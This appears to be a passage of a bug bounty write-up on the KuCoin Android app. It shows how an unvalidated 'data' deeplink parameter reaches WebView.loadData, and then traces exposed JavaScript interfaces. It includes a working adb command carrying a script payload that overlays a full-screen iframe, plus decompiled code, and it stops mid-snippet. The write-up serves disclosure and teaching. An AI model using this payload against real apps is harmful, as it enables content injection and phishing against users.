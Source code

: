 ```
                m25597c.loadData(C10208p.m25765h(this.f19927C), "text/html", "UTF-8");
            }
}
```
In `WebViewActivity` class I noticed this line `intentUtils.m10181f(intent3, "data");` which was checking if the received uri contains `data` query parameter, this meant the application is also accepting the deeplink `kucoin:///link?data=` , but it didn't come in the search result, that's why it is very important to understand the logic of application you are testing if you don't want to miss some very obvious thing.

I constructed another uri and sent it to the app, this time app was using `webview.loadData` method to load the given data in the webview and there was no validation being made by the app about what type of data is being sent to the app.
```
adb shell am start   -d 'kucoin:///link?data=\<script\>document.write\(\"\<iframe%20src=https://www.example.com%20style%3Dposition%3Afixed%3Btop%3A0%3Bleft%3A0%3Bwidth%3A100%25%3Bheight%3A100%25%3Bborder%3Anone%3B\>\<\/iframe\>\"\)\;\</script\>'
```

After finding this I started looking further to find ways to increase the impact of this vulnerability, in the program page it was mentioned that they are interested in attacks involving javascript interfaces, so I started looking for the use of JS interface in the app. 

Android application uses `webview.addJavascriptInterface` method and `@JavascriptInterface` annotation to make the method public to be accessed from JavaScript code. 

In `com.kubi.sdk.hybrid.core.HybridWebView.java`
```
public final void m12588b(IHybridJsInterface jsInterface, String name) {
        Intrinsics.checkNotNullParameter(jsInterface, "jsInterface");
        Intrinsics.checkNotNullParameter(name, "name");
        this.f16125f.add(name);
        addJavascriptInterface(new HybridJsInterface(this, jsInterface), name);
    }
```
Then I searched for `@JavascriptInterface` anotation string in the app and found that  `prompt` method was exposed to javascript code in `j.y.k0.hybrid.core.HybridJsInterface` class. 
```
 @JavascriptInterface
    
    public final void prompt(String message) {
         // JavascriptInterface LOGIC //
    }
```
In `j.y.s0.d.h.b.java` 
```
public boolean mo29545a(InterfaceC18155c container, String event, HashMap<String, Object> params, HybridJsCallback hybridJsCallback) {
        Intrinsics.checkNotNullParameter(container, "container");
        Intrinsics.checkNotNullParameter(event, "event");
        Intrinsics.checkNotNullParameter(params, "params");
        JSONObject jSONObject = new JSONObject(event);
        String optString = jSONObject.optString(FirebaseAnalytics.Param.METHOD);
        String url = jSONObject.optString(ImagesContract.URL);
        if (optString == null) {
            return true;
        }
        int hashCode = optString.hashCode();
        if (hashCode != 102230) {
            if (hashCode == 3446944 && optString.equals("post")) {
                BaseActivity i02 = container.i0();
                Intrinsics.checkNotNull(i02);
                Intrinsics.checkNotNullExpressionValue(url, "url");
                m6326c(i02, url, params, hybridJsCallback);
                return true;
            }
```